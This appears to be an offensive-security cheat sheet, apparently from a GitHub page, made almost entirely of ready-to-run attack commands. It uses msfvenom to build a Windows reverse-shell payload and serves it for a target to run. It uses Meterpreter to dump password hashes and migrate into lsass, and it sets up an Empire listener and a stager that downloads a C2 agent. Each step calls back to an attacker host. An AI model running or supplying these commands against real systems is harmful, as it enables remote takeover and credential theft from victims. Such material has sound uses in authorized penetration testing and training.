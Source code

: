 **MSFVenom**
```bash
# attacker: terminal 2
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=443 -f exe -o rshell.exe
sudo python3 -m http.server 8000
# get the target to download and execute the payload
```

**Meterpreter**  
Change exploits to `post/windows/gather/hashdump`. 
```bash
# attacker: terminal 1 (after a shell has been opened)
background                       # put session into the background 
sessions                         # confirm session number
use post/windows/gather/hashdump # change exploits
set SESSION 1                    # specify the session to use
options                          # check your exploit settings
run                              # dumps password hints and hashes
sessions -k 1                    # kill the session 
```

If there was an error about needing a SYSTEM user context, run the commands below. 
```bash
sessions -i 1                    # interact with session 1
ps                               # list processes (look for lsass, explorer, etc.)
migrate 666                      # migrate to lsass process (PID 666)
background                       # try and run the 'hashdump' exploit above again
```

## Empire, Python, and Seatbelt
Start Empire. 
```bash
# attacker Terminal 1:
cd empire/
sudo ./ps-empire server
```
```bash
# attacker Terminal 2:
cd Empire/
sudo ./ps-empire client
```

Configure and start a listener. 
```bash
# attacker Terminal 2:
uselistener http
set Name handler_http 
set Port 4444
set Host 192.168.1.23
set defaultdelay 1 # seconds between agent check-in
execute            # to modify a listener, disable it and run "editlistener" (regenerate your stager too)
```

Configure and create a stager (upon execution, the stager will download and start a C2 agent). 
```bash
# attacker Terminal 2:
usestager windows/launcher_bat
set Listener handler_http
execute # the stager will be written to empire/client/generated-stagers/
```

